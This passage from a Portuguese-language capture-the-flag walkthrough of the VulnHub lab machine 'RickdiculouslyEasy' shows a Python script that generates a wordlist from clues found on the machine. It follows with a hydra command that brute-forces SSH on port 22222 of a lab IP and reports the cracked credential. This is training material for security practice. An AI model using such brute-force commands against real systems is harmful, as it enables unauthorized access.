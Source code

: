
* Agora vamos criar um script em python para gerar uma wordlist de acordo com as dicas que achamos. 

```python
#!/usr/bin/python3
import string
for letra in list(string.ascii_uppercase):
    for numero in [0,1,2,3,4,5,6,7,8,9]:
        for palavra in ['The', 'Flesh', 'Curtains']:
            print(str(letra)+str(numero)+str(palavra))
```

![](/assets/img/Vulnhub/RickdiculouslyEasy/gerador-wordlist-I.png)

* Agora e so dar permissao de execucao para o script e executa-lo jogando a sua saida para um arquivo

![](/assets/img/Vulnhub/RickdiculouslyEasy/wordlist.png)


# Brute Force SSH - Porta 22222

* Bom, agora que ja temos uma wordlist vamos tentar quebrar a senha do ssh. Como nao tenho certeza do ususario eu vou tentar fazer com o dois que conhecemos na maquina... Conseguimos achar a credencial **RickSanchez:P7Curtains**

```bash
hydra -L user.txt -P wordlist_II.txt ssh://192.168.56.105 -s 22222
```

![](/assets/img/Vulnhub/RickdiculouslyEasy/credencial-rick.png)
